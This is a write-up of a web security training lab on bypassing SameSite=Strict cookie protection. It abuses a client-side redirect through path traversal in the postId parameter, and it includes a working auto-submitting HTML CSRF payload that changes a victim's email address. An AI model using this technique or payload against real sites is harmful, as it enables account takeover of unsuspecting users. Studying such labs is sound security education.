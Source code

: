 # Lab: SameSite Strict bypass via client-side redirect

> Lab Objective: perform a CSRF attack that changes the victim's email address.

- Login using provided credentials `wiener:peter`, and inspect the login's request and response.
  ![1st screenshot](./attachments/1.png)

- You'll notice that there is `SameSite=Strict` restriction on the cookies, therefore the browser won't sent the cookies through cross-site requests.

- Inspect the request and response When submitting a comment in any blog post.
  ![2nd screenshot](./attachments/2.png)

- This page will come up, then after a few seconds you'll return to the same Blog Post page that you submitted the comment (keep in mind, with the same id.)
  ![3rd screenshot](./attachments/3.png)

- In the previous page there is a JS function which redirects us after the comment submission to the Blog post with the same ID after 3 seconds, which is the value for `postId` url string parameter in `/post/comment/confirmation?postId=1`.

```js
redirectOnConfirmation = (blogPath) => {
  setTimeout(() => {
    const url = new URL(window.location);
    const postId = url.searchParams.get("postId");
    window.location = blogPath + "/" + postId;
  }, 3000);
};
```

- When the value for `postId` is equal to `1`, the path that we'll be redirected to will be `/post/8`.

- In order to make that function redirect us to `/my-account` page, change the `postId` value to `../../../my-account` , the url will be `/post/comment/confirmation?postId=../../../my-account`.
  ![4th screenshot](./attachments/4.png)
  ![5th screenshot](./attachments/5.png)

- You'll be redirected to `my-account` page.
  ![6th screenshot](./attachments/6.png)

- Here, I want to:

  - Make a request to `/post/comment/confirmation?postId=../../../my-account/change-email` in order to make a get request to `/my-account/change-email`
  - then submits the new email through a `POST` request.

- Use this payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form
      action="https://0af4006e0320d3f780bb032d00a60005.web-security-academy.net/post/comment/confirmation"
    >
      <input
        type="hidden"
        name="postId"
        value="../../../my-account/change-email?email=attacker@gmail.com&submit=1&_method=POST"
      />

      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- The lab is solved successfully
  ![7th screenshot](./attachments/7.png)

